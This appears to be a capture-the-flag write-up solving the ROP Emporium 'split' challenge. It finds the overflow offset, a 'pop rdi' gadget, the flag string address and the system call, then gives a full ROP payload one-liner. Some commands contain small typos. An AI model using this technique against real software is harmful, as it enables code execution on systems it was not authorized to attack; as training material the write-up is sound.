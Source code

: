 # Basic Test:

## Check call system into binary file
```bash
strace ./split
```

## Check protection into binary file
```bash
checksec ./split
```

    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

<br>

# Exploitation:

## Clear the kernel ring buffer
```bash
sudo dmesg -C
```

## Find offset for overwrite RIP
```bash
python2 -c 'print "A"*40 + "B"*4*' | ./split
```

## See output
```bash
sudo dmesg -T
```

	[sam. avril  8 13:18:56 2023] split[31929]: segfault at a42424242 ip 0000000042424242 sp 00000000ffed7d00 error 14 in libc.so.6[f7c00000+22000] likely on CPU 0 (core 0, socket 0)

## Find the a gadget for the parameter

```bash
ROPgadget --binary ./split | grep "pop rdi"
```
 
	0x00000000004007c3 : pop rdi ; ret

## Find the address of the paramater
```bash
rabin2 -z ./split
```

	nth paddr      vaddr      len size section type  string
	―――――――――――――――――――――――――――――――――――――――――――――――――――――――
	0   0x000007e8 0x004007e8 21  22   .rodata ascii split by ROP Emporium
	1   0x000007fe 0x004007fe 7   8    .rodata ascii x86_64\n
	2   0x00000806 0x00400806 8   9    .rodata ascii \nExiting
	3   0x00000810 0x00400810 43  44   .rodata ascii Contriving a reason to ask user for data...
	4   0x0000083f 0x0040083f 10  11   .rodata ascii Thank you!
	5   0x0000084a 0x0040084a 7   8    .rodata ascii /bin/ls
	0   0x00001060 0x00601060 17  18   .data   ascii /bin/cat flag.txt

## Find the address of the call system
```bash
pwngdb> disass*usefulFunction
```

	   0x0000000000400742 <+0>:     push   rbp
	   0x0000000000400743 <+1>:     mov    rbp,rsp
	   0x0000000000400746 <+4>:     mov    edi,0x40084a
	   0x000000000040074b <+9>:     call   0x400560 <system@plt>
	   0x0000000000400750 <+14>:    nop
	   0x0000000000400751 <+15>:    pop    rbp
	   0x0000000000400752 <+16>:    ret

## Payload final CLI

```bash
python2 -c 'print "A"*40 + "\xc3\x07\x40\x00\x00\x00\x00\x00" + "\x60\x10\x60\x00\x00\x00\x00\x00" + "\x4b\x07\x40\x00\x00\x00\x00\x00"' | ./split # pop rdi; ret = 0x00000000004007c3 + /bin/cat flag.txt = 0x00601060 + system = 0x000000000040074b
```